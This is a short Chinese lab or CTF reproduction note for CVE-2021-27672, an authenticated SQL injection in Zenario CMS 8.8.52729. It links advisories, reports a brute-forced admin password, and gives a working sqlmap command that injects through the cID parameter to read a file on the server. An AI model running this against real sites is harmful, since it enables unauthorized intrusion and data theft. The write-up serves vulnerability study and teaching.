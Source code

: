 ## 1. 漏洞介绍
Zenario CMS v8.8.52729 admin_boxes.ajax.php 存在sql注入漏洞
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-27672)
[Authenticated Blind & Error based SQL injection and Reflected XSS on Zenario 8.8.52729 CMS (CVE-2021–27672, CVE-2021–27673) | by Avinash | Medium](https://deadsh0t.medium.com/blind-error-based-authenticated-sql-injection-on-zenario-8-8-52729-cms-d4705534df38)
## 2. 漏洞复现
登录密码爆破可得：admin/Aa123456

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021828223.png)

注，点击 HTML page 前开启抓包
用 sqlmap 注入即可

```shell
python sqlmap.py -r post.txt -p cID --batch --random-agent  --file-read "/flag"
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021834796.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021834573.png)

XSS 演示参见 [Authenticated Blind & Error based SQL injection and Reflected XSS on Zenario 8.8.52729 CMS (CVE-2021–27672, CVE-2021–27673) | by Avinash | Medium](https://deadsh0t.medium.com/blind-error-based-authenticated-sql-injection-on-zenario-8-8-52729-cms-d4705534df38)